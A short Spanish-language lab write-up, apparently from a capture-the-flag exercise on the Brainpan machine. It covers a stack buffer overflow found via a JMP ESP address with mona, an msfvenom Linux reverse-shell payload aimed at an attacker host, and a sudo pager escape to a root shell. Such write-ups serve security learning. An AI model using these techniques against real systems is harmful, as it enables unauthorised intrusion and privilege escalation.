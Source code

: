  `!mona find -s "\xFF\xE4" -m brainpan.exe` -> esto nos descubre la dirección "jmp ESP - 0x311712f3" para completar nuestro .py 
 - Para comprobar, si creamos un breakpoint en IDebugger con f2 en la dirección FFE4 0x311712f y volvemos a ejecutar todo. Esto parará en el jmp ESP, y el EIP será diferente al ESP, pero al salir del BreakPoint el ESP y EIP serán el mismo. 
 - Hay que ajustar también o mas bien dejarle un tiempo antes de que se ejecute el shellcode, para eso metemos unos nops. 
 - Volvemos a ajustar el shellcode pero ahora con la maquina o nodo más cercano y s.connect(10.15.12.129...)
- Ahora lanzamos script.py a la maquina real y ganamos acceso a una unidad lógica Z:\. Esta máquina tiene algo montado que es linux y windows. Vamos a preparar otro shellcode para linux y lanzar otra vez el script.py. Command: _`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.50.202 LPORT=1346 -f py -b "\x00" EXITFUNC=thread`_ 
- Tratamos la tty.  Ahora investigando la maquina, es linux. Pero la aplicación corre con wine "windows".
- Existe un "sudo -l" comando que podemos lanzar como sudo y es un programa que nos permite abrir manual entre otras opciones.
- La idea es abri el manual de whoami por ejemplo y al entrar en modo paginate, hay podemos lanzar un comando. Pasos:
```shell
$> sudo /home/anansi/bin/anansi_util manual whoami
$> !/bin/bash # Dentro del modo paginate.
```
- Para poder ejecutar comandos con el "NX disable" del binario en la maquina WIN7, podemos incluir este comando en el cmd `bcdedit /set  {current} nx AlwaysOFF` y reload PC de prueba local del binario. 
- **PWNED!**

